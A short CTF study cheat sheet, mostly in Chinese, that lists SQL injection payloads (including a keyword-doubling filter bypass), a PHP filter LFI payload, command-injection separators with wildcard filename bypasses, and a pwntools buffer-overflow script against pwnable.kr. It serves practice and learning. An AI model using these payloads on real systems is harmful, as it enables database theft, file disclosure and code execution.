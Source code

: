 # CTF note
## WEB

### SQL injection

select database()

group_concat(table_name) from information_schema.tables where table_schema=‘database()’
再看某個資料庫的table (單引號要提換成實際database name)

group_concat(column_name) from information_schema.columns where table_name='wargame2key'-- -

or (尾端單引號內容可換成hex 然後不需要單引號 , 不行的話試試看單引號不要拿掉)

group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#

---

已知欄位數量 database()名稱

(`limit`參數為開始欄位id,顯示數量)

查看表個名:
(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='置換成db名稱' limit 0,1)

查看欄位名:
(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='置換成表格名稱' limit 1,1)

取得欄位內容:
(select flag from flag limit 1,1)

### LFI

> ?page=`php://filter/read=convert.base64-encode/resource=path`

### command injection

**串接指令** : `反引號` , `&&` , `|` , `;`

**讀取檔案** : `cat` , `head` , `tail` , `sort` , `more`

**檔名被過濾** : 萬用字元繞過 (ex:flag.txt --> `cat fla*`)

## PWN

### asm intel

參數存入rigister順序 `printf(rdi,rsi,rdx,rcx,r8,r9)`

[ref](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/)

### pwnalbe

- 32bit frame

  - gcc -m32

- protect
  
  - gcc -fno-stack-protector file.c(關閉canary)

- gdb調用技巧

  - disas main

  - info func
 
  - x $ebp+8

- pwntools
 
  - OFFSET  

    - cyclib(50)
 
    - cyclib_find('aa') 

`pwntools 基本用法`
```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```
